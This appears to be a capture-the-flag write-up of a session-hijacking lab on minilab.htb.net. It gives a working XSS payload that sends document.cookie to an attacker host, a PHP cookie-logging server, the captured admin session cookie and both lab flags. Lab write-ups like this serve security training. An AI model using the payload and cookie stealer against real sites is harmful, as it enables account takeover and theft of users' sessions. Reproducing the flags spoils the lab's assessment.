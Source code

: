 ```yaml
---
sticker: emoji//1f512
---
```

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknrol
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219131413.png)
# First Question
---
Let's begin by checking the URL:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219135255.png)

Now, let's share:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219140807.png)

If we refresh the page:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219140815.png)

We are now admin user, let's make it public:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219140839.png)

If we go to share, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219142017.png)

We can filter:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219142344.png)

